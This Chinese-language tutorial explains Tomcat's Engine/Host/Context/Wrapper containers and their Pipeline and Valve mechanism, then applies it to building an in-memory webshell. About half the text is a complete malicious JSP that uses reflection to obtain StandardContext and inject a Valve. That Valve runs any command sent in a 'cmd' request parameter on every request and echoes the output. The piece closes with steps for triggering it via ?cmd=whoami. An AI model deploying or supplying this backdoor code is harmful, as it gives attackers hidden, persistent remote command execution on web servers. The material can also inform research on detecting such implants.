


# Tomcat Valve内存马

# Valve是什么？



如图，在Tomcat中，有着Engine、Host、Context、Wrapper四大容器，

1. Engine是Tomcat的顶层容器，管理所有Host（虚拟主机），并根据请求的域名决定选择对应的Host进行处理
2. Host代表一个虚拟主机，管理若干Context，并根据请求路径决定选择对应的Context处理
3. Context对应一个应用程序，

- 管理若干资源（Servlet、Filter、JSP、静态文件等）的集合
- 每个Context之间的类加载器和配置（web.xml）是隔离的
- 管理session

4. Wapper管理单个 Servlet 的生命周期和请求处理，执行 Filter 链也是这个容器做的。

请求达到服务器后传递的顺序分别是Engine->Host->Context->Wrapper，但是传递过程并不是容器直接互相调用，而是通过每个容器内部的 管道（Pipeline） 和 阀门（Valve） 机制实现的。这种设计模式是 Tomcat 架构的核心精髓，它让请求像水流一样在容器层级间智能流动。

Valve 是可插拔的请求处理单元，每个 Valve 负责一项独立功能（如日志记录、权限检查、数据压缩等），它们就像水管上的控制阀。

# Pipeline又是什么？

前面说到，Valve是阀门，那么Pipeline就是管道，每个容器内部都有一个专属的 Pipeline，每个Pipeline里面都有一个执行顺序位于最后的基础阀门，负责将请求传递到下层容器的Pipeline，同时我们又可以在每个管道中添加自定义的阀门。

观察管道接口源码，管道支持通过addValve()方法向管道内添加自定义阀



# 与内存马结合

这套机制让我们看到了与内存马的可能性，但具体来说还是要注意以下几点：

- 该机制是Tomcat中间件的私有实现，不像ServletAPI是通用的
- 一般来说，优先级是高于Servlet/Filter/Listener和Spring的控制器/拦截器的

问题变成了，我们要如何拿到容器内的pipeline对象呢，通过阅读源码，不难发现，每个容器均支持getPipeline()方法


于是，我们可以从StandardContext对象入手，构造以下恶意jsp

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
public class MyValve extends ValveBase {
  @Override
  public void invoke(Request req, Response resp) throws IOException, ServletException {
    String cmd = req.getParameter("cmd");
    if (cmd != null) {
      Process proc = Runtime.getRuntime().exec(cmd);
      BufferedReader br = new BufferedReader(
              new InputStreamReader(proc.getInputStream()));
      String line;
      while ((line = br.readLine()) != null) {
        resp.getWriter().println(line);
      }
      br.close();
    }
    next.invoke(req,resp);
  }
}
%>
<%
  // 从request中获取servletContext
  ServletContext servletContext = request.getServletContext();

  // 从servletContext中获取applicationContext
  Field applicationContextField = servletContext.getClass().getDeclaredField("context");
  applicationContextField.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
  // 从applicationContext中获取standardContext
  Field standardContextField = applicationContext.getClass().getDeclaredField("context");
  standardContextField.setAccessible(true);
  StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
  standardContext.getPipeline().addValve(new MyValve());
  out.println("inject success");
%>
```

重启服务器并访问inject.jsp


在任意地址访问?cmd=whoami


‍

‍
